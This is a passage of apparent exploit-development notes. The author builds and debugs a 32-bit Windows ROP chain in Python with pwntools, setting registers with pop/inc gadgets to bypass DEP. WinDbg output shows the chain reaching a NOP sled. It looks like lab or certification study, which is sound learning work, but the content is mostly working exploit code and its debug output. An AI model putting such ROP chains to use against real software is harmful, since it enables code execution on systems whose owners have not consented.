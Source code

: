 ahhh cause I'm doing a call there needs to be a PPR.
```
0x100de5ef: pop eax; pop edi; ret 0xc;
```

The `ret 0xc` is going to be annoying.

I think this is right:
```
#EBX = dwSize # not 0
body += pwn.p32(addr_popebxret)
body += pwn.p32(0xFFFFFFFF)
for i in range(2):
    body += pwn.p32(addr_popediret)
    body += pwn.p32(addr_ppr0xc)
    body += pwn.p32(addr_incebx_calledi)
    body += pwn.p32(0x90909090)

#EDI = ROPNOP (RET)
body += pwn.p32(addr_popediret)
body += pwn.p32(ropnop)
```

It should be 1 as its 3 for the 0xc and 8 are taken by the PPR. 

So turns out a lot was wrong. I single stepped and changed a few things, it now looks like this:
```
#EBX = dwSize # not 0
#EDI = ROPNOP (RET)
body += pwn.p32(addr_popebxret)
body += pwn.p32(0xFFFFFFFF)
body += pwn.p32(addr_popediret)
body += pwn.p32(addr_ppr0xc)
body += pwn.p32(addr_incebx_calledi)
body += b'A'*4
body += pwn.p32(addr_popediret)
body += pwn.p32(0x90909090)*3
body += pwn.p32(addr_ppr0xc)
body += pwn.p32(addr_incebx_calledi)
body += pwn.p32(ropnop)

#EAX = NOP (0x90909090)
body += pwn.p32(addr_popeaxret)
body += pwn.p32(0x90909090)*3
body += pwn.p32(0x90909090)
```

And this works!!!
```
0:007> 
eax=02cbf000 ebx=00000001 ecx=97640000 edx=02cbf000 esi=7728b770 edi=10040826
eip=02cbfb62 esp=02cbfb60 ebp=100bc9e5 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
02cbfb62 90              nop
0:007> !@esp
@esp is not extension gallery command
No export @esp found
0:007> !address @esp

                                     
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
```
